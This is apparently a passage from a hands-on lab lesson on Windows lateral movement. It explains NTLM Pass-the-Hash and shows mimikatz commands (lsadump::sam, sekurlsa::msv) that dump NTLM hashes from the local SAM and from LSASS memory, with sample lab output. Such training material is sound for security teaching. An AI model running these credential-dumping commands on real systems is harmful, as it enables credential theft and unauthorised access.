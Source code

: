 **Note:** The described process applies when using a  domain account. If a local account is used, the server can verify the  response to the challenge itself without requiring interaction with the  domain controller since it has the password hash stored locally on its  SAM.

## Pass-the-Hash

As a result of extracting credentials from a host where we have  attained administrative privileges (by using mimikatz or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked  NTLM password hashes.

Although it may seem we can't really use those hashes, the NTLM  challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can **Pass-the-Hash** (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory.

**Extracting NTLM hashes from local SAM:**

This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available.

- **THMJMP2: Powershell**        

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
        
```

**Extracting NTLM hashes from LSASS memory:**

This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

- **THMJMP2: Powershell**        

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
        
```
